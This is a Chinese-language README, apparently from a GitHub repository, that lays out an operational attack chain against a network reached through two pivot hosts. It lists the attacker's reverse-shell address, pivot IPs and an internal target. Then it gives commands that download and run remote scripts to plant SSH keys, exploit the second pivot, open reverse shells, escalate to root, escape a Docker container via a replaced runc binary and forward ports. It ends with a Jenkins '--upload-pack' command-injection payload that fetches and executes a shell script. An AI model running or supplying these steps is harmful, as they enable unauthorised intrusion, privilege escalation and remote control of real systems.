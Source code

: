 ## 攻击机接受反弹shell的地址
ddns.randomhhh.top:9000  经本地路由器端口转发后的端口为 4444

## 跳板机1 ip
34.92.246.183
## 跳板机2 ip
35.220.174.61

## 目标主机的内网ip
10.170.0.3

# 拿下跳板机1后攻击流程的指令
### 下载addKey.sh 修改权限， 执行，配置主机的ssh公钥，用于ssh登录
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/addkey.sh && chmod 755 ./addkey.sh && ./addkey.sh
``` 
### 下载exploitFirst.py 执行，攻击跳板机2
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/exploitFirst.py && python exploitFirst.py
```
### webshell内下载reverse1.sh 修改权限，反弹shell到 34.92.246.183:4444
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/reverse1.sh 
chmod 755 ./reverse1.sh 
./reverse1.sh
```
### 下载getPty.py ,执行,获取pty
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/getPty.py && python getPty.py
```
### 下载upRight.sh, 修改权限，执行，提权至root
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/upRight.sh && chmod 755 ./upRight.sh && ./upRight.sh
```
### 下载预先编译的沙箱逃逸二进制，修改权限，执行，在docker外反弹一个shell至 34.92.246.183:4445
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/replaceRunc && chmod 755 ./replaceRunc && ./replaceRunc
```
### 分别在跳板机1 和 跳板机2 上开下载和开启端口转发，以访问内网
```bash
# 跳板机1 5555:35.220.174.61:5555
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/port-forward.py && python ./port-forward.py 5555:35.220.174.61:5555
# 跳板机2 5555:10.170.0.3:80
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/port-forward.py && python ./port-forward.py 5555:10.170.0.3:80
```

### 最后访问Jenkins漏洞利用的页面，输入下面的payload
```bash
--upload-pack="`wget -O /tmp/reverse2.sh https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/reverse2.sh`"
--upload-pack="`chmod 755 /tmp/reverse2.sh`"
--upload-pack="`/tmp/reverse2.sh `"
```
